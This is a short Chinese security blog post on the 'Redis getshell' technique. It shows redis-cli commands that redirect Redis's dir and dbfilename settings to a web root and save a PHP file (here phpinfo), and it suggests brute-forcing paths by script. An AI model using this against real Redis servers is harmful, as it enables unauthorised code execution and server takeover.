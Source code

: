 ```yaml
---
title: "Redis Getshell"
date: 2018-03-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['redis']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false
twemoji: false
lightgallery: true
ruby: true
fraction: true
fontawesome: true
linkToMarkdown: true
rssFullText: false

toc:
  enable: true
  auto: true
code:
  copy: true
  maxShownLines: 50
math:
  enable: false
share:
  enable: true
comment:
  enable: true
---
```



本质上是 redis RDB 方式指定保存数据库的路径.

<!--more-->

## 介绍

redis 配置里有 dir 和 dbfilename

dir 存储路径 dbfilename 存储文件名

```
127.0.0.1:6379> config get dir
1) "dir"
2) "F:\Redis"
127.0.0.1:6379> config get dbfilename
1) "dbfilename"
2) "dump.rdb"
```

save 保存

## 利用

`config set dir 路径`

`config dbfilename 文件名`

`set web 内容`

`save`

```
127.0.0.1:6379> config set dir F:\phpStudy\WWW
OK
127.0.0.1:6379> config set dbfilename 'info.php'
OK
127.0.0.1:6379> set web '<?php phpinfo() ?>'
OK
```

另外 config set 不存在的 dir 会报错.

```
127.0.0.1:6379> config set dir F:\fakepath
(error) ERR Changing directory: No such file or directory
```

可以写脚本爆破路径
